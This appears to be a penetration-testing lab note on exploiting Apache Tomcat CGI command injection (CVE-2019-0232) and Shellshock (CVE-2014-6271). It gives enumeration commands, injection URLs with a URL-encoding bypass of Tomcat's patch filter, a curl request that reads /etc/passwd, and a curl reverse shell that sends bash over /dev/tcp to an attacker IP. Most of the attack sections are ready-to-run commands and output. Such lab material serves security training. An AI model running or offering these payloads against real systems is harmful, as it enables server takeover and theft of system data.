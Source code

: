 # tomcat cgi
## info
CVE-2019-0232 is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the enableCmdLineArguments feature enabled. An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system.  
Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.  
The CGI Servlet is a vital component of Apache Tomcat that enables web servers to communicate with external applications beyond the Tomcat JVM. These external applications are typically CGI scripts written in languages like Perl, Python, or Bash. The CGI Servlet receives requests from web browsers and forwards them to CGI scripts for processing.  
In essence, a CGI Servlet is a program that runs on a web server, such as Apache2, to support the execution of external applications that conform to the CGI specification. It is a middleware between web servers and external information resources like databases.  
The enableCmdLineArguments setting for Apache Tomcat's CGI Servlet controls whether command line arguments are created from the query string. If set to true, the CGI Servlet parses the query string and passes it to the CGI script as arguments. This feature can make CGI scripts more flexible and easier to write by allowing parameters to be passed to the script without using environment variables or standard input.  
<pre>http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby</pre>
However, a problem arises when enableCmdLineArguments is enabled on Windows systems because the CGI Servlet fails to properly validate the input from the web browser before passing it to the CGI script. This can lead to an operating system command injection attack, which allows an attacker to execute arbitrary commands on the target system by injecting them into another command.  
For instance, an attacker can append dir to a valid command using & as a separator to execute dir on a Windows system. If the attacker controls the input to a CGI script that uses this command, they can inject their own commands after & to execute any command on the server. An example of this is http://example.com/cgi-bin/hello.bat?&dir, which passes &dir as an argument to hello.bat and executes dir on the server. As a result, an attacker can exploit the input validation error of the CGI Servlet to run any command on the server.  
## enumeration
<pre>
$ nmap -p- -sC -Pn 10.129.204.227 --open 

8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
</pre>
One way to uncover web server content is by utilising the ffuf web enumeration tool along with the dirb common.txt wordlist. Knowing that the default directory for CGI scripts is /cgi, either through prior knowledge or by researching the vulnerability, we can use the URL http://10.129.204.227:8080/cgi/FUZZ.cmd or http://10.129.204.227:8080/cgi/FUZZ.bat to perform fuzzing.  
<pre>
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

  * FUZZ: welcome
</pre>
## exploitation
cgi dirs are tipically /cgi/ and /cgi-bin/  
!!! maybe /cgi/ gives back http 404 but it is a valid path, and we should start fuzzing the files .bat .sh etc under /cgi/ !!!  
As discussed above, we can exploit CVE-2019-0232 by appending our own commands through the use of the batch command separator &. We now have a valid CGI script path discovered during the enumeration at http://10.129.204.227:8080/cgi/welcome.bat  
<pre>http://10.129.204.227:8080/cgi/welcome.bat?&dir</pre>
Navigating to the above URL returns the output for the dir batch command, however trying to run other common windows command line apps, such as whoami doesn't return an output.  
Retrieve a list of environmental variables by calling the set command: http://10.129.204.227:8080/cgi/welcome.bat?&set  
From the list, we can see that the PATH variable has been unset, so we will need to hardcode paths in requests:
<pre>http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe</pre>
The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered. Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special characters. However, the filter can be bypassed by URL-encoding the payload.  
<pre>http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe</pre>
## shellshock (CVE-2014-6271)
tipical cgi directory: /CGI-bin  
The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable.  
### payload code
<pre>$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"</pre>
### full attack code
<pre>
$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
/access.cgi           (Status: 200) [Size: 0]

$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
</pre>
### reverse shell
<pre>
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
</pre>
